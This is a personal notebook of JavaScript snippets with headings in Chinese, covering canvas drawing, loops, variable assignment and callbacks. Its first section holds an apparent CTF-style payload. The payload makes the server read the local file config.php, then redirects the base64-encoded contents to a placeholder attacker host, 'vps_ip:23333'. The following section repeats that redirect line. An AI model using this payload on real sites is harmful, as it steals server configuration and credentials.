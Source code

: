 # javascript

## 访问网页

```javascript
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","request.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("url=file:///var/www/html/config.php");
```

## 重定向

` document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);`



## 手册

 https://developer.mozilla.org/ 

 https://www.w3schools.com/ 



## 循环

```javascript
var img = new SimpleImage(200, 200);
for(var pixel of img.values())
{//pixel是img.values()的引用
    pixel.setRed(255);
    pixel.setGreen(255);
    pixel.setBlue(0);
}
print(img);
```





## canvas操作

```javascript
var canvas=document.getElementById("show2");
var context = canvas.getContext('2d');
#init
context.clearRect(0, 0, canvas.width, canvas.height);
#clear canvas
context.font = "30px Arial";
context.fillText("Hello World", 10, 50);
#draw a text


context.fillStyle = "red";
context.fillRect(10, 10, 150, 80);
#draw rectangle
```



## 变量赋值(注意点)

当变量是数字和字符串的时候,会生成一个拷贝,再赋值给目标

但如果对象是数组和对象时,这会将引用赋值给目标,此时修改新变量也会影响到旧变量



## 向 无参callback function 传参

```javascript
function createCallback(x, m) {
    return function() {
        /* Do whatever */
    };
}
xhttp.onreadystatechange = (function(x, m) {
    return function() {
        /* Do stuff */
    }
})(xhttp, msg);
```

